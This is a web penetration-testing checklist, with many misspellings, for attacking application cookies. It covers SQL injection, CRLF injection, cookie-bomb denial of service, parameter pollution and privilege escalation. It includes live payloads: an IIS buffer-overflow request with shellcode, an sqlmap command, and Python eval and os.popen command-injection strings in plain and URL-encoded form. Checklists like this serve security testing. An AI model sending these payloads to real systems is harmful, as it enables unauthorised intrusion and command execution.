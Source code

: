 - [ ] sensetive Data Stored in Cookies

```
check if anf pii or other sensitive infromation stored in  cookies this in fromation usually includes : email,sessionID, data of birth ,mobile address ,ssn ,etc.
```

- [ ] cookie length violation  
    leads to Buffer Overflow : A cookie length which is longer than profiled length can indicate that a buffer overflow attack attempt takes place. In a buffer overflow attack, the attacker will have to send very long strings that will generate the overflow, all of them generating this Violation.

```
GET  /default.ida?NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN%u9090%u6858%ucbd3%u7801%u9090%u6858%ucbd3%u7801%u9090%u6858%ucbd3%u7801%u9090%u9090%u8190%u00c3%u0003%u8b00%u531 b%u53ff%u0078%u0000%u00=a
```

- [ ] Arbitrary Cookie injection

```
try injecting some arbitrary cookies using attack such as CRLF injection ,some times it can be used to escalate privilege or if the application malfunction, it can reveal sensitive infromation through stack traces
```

- [ ] Mass Assignment

```
similar to the parameter poolution, however in this , attacker tried to inject multiple user ID in same user_id  parameter
```

- [ ] Damial of service - cookie Bomb

```
forcing the server to process cookies larger than the resricted cookie size defined by the server may cause danial of service attack<https://target.com/index.php?param1=xxxxxxxxxxxxxxxxxxxxxx>After input "xxxxxxxxxxxxxxxxxxxxxx" as a value of param1, check your cookies. If there is cookies the value is "xxxxxxxxxxxxxxxxxxxxxx" it means the website is vulnerableReferences: [Hackerone #105363](<https://hackerone.com/reports/105363>)
```

- [ ] SQL injection

```
How to inject the code in Cookies?There are many HTTP interceptors and HTTP editors that can intercept the HTTP request before it is sent to the server. Then the tester can introduce his malicious SQL statement in the cookie field.It’s like a get/post based SQL Injection, except that certain characters can’t be used. For example, ‘**;**‘ and ‘**,**‘ are typically treated as delimiters, so they end the injection if they aren’t URL-encoded.Cookie : sessionId=xxxbad1fdc’ order by 1# (Normal)_Cookie : sessionId=xxxbad1fdc’ order by 2# (Error)_after errorsqlmap -u "" --cookie="" -p "" --dbs
```

- [ ] parameter pollution

```
1. Assume that cookie utilize a parameter called **user_id=** to rerieve some data2. however , the application is not vulnerability to idor and change **user_id** to victim value dosnt help you3.attacker ,add an addition another  **user_id=** parameter value to rhe cookie with vuctim user ID LIke: **user_id=atacker&user_id=victim**4. Three things can happen here:- the application may retrieve data of victim data- the application may retrieve data of victim data and attacker data- the application is not retrieve data it is not vulnerability
```

- [ ] Authentication Bybass (cookie are not avalid)

```
try accessing a protected resource by removing cookies
```

- [ ] xss

```
assume that the value of the cookie parameter "name" is reflected in the applicationchange the "name" value to "xss payload"
```

- [ ] Insufficient session management

```
1. session doesnt expire on logout2. long session expirey3. session doesnt expire on password reset /change4. concurrent session
```

- [ ] privilege escalation

- horizontal

```
1.assume that the application uses mult-organization models2.cookie are used wich organized user can access3.alter the cookie in order to access some other application
```

- vertical

```
1.assume the cookie are used to determine the role of the user2.alter the cookie in order to elevate the role of the user
```

- similarly

```
1.try if the flower users cookies can be used to access higher users function2.try if the cookie of organization 1 user van be used to access function of organizaion 2
```

- [ ] sesion puzzing

```
when an application utilzes the same session variable for multiple purposes , this can abused by an attacker to trick the application and perform the action as an authenticated or privileged user
```

- [ ] Exploiting Python Code Injection  
    this payload in cookie or contenttype or path or parameter

```
eval(compile('for x in range(1):\\n import time\\n time.sleep(20)','a','single'))
```

- [ ] OS command injection

```
**eval(compile("""for x in range(1):\\\\n import os\\\\n os.popen(r'COMMAND').read()""",'','single'))**
```

```
eval(compile("""__import__('os').popen(r'COMMAND').read()""",'','single'))
```

```
**__import__('os').popen('COMMAND').read()**
```

- [ ] URL encode some characters

```
param=eval%28compile%28%27for%20x%20in%20range%281%29%3A%0A%20import%20time%0A%20time.sleep%2820%29%27%2C%27a%27%2C%27single%27%29%29
```

```
param=eval%28compile%28%22%22%22for%20x%20in%20range%281%29%3A%5Cn%20import%20os%5Cn%20os.popen%28r%27COMMAND%27%29.read%28%29%22%22%22%2C%27%27%2C%27single%27%29%29
```

```
param=eval%28compile%28%22%22%22__import__%28%27os%27%29.popen%28r%27COMMAND%27%29.read%28%29%22%22%22%2C%27%27%2C%27single%27%29%29
```

```
param=__import__%28%27os%27%29.popen%28%27COMMAND%27%29.read%28%29
```

Example with one expression

```
__import__('os').popen('COMMAND').read()
```

Example with multiple expressions, separated by commas

```
str("-"*50),__import__('os').popen('COMMAND').read()
```

- [ ] Insecure Deserialization

```
 if cookis are using serialized Objects ,try performing insecure Deserialization Checks. portswigger laps
```

- [ ] Electronic Code Book

[ ] Pickle Code Execution

[ ] Cipher block chainin

[ ] file inclusion

[ ] IDOr

[ ] session fixation

[ ] padding oracle attack

[ ] jwt attack